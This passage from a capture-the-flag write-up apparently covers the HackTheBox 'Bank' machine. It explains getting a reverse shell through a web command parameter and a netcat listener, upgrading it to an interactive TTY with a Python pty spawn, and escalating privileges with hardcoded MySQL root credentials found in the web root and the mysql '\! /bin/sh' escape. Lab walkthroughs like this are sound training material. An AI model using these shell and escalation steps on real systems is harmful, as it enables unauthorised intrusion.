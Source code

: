 ![image]({{site.github.url}}/assets/img/htb/bank/debug.png)

# Shell Access

Having RCE, its time to get a shell into the machine. I setup my listener and connected back to my machine using netcat. You can check whether the victim has nc installed by running: ```?cmd=which nc```

| ![image]({{site.github.url}}/assets/img/htb/bank/rce.png) |
| :--: |
| *Executing commands as user www-data* |![image]({{site.github.url}}/assets/img/htb/bank/rce.png)

That sigh of relief once you catch that reverse shell makes all the work worth it but I'd rather much operate in a fully interactive TTY shell so its time to upgrade. 

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bank:/var/www/bank/uploads$ 
www-data@bank:/var/www/bank/uploads$ ^Z  (CTRL+Z MOVE IT TO THE BACKGROUND)
[1]+  Stopped                 nc -lvnp 443
root@kali:~/Documents/boxes/bank# stty raw -echo
(Type fg and then hit ENTER)
root@kali:~/Documents/boxes/bank# nc -lvnp 443
www-data@bank:/var/www/bank/uploads$ 
www-data@bank:/var/www/bank/uploads$ clear             
TERM environment variable not set.
www-data@bank:/var/www/bank/uploads$ export TERM=screen 
```
This workaround gives us the ability to tab autocomplete, clear the screen, arrow up history etc.


# Privilege Escalation

Now that were in the victim's machine, its time to find a way to escalate. Navigating around the root directory of the webserver: ```/var/www/bank/``` I came across some mysql credentials in the ```inc``` directory.

```bash
function getCreditCards($username){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
```

## MYSQL Enumeration

Inside the ```/var/www/bank/inc``` directory we see a user.php file with a mysql username and password. We can log into the mysql database with those credentials, drop into a shell and hope we are root.

```bash
www-data@bank:/var/www/bank/inc$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 345
Server version: 5.5.55-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> \! /bin/sh (COMMAND TO UPGRADE TO A SHELL)
```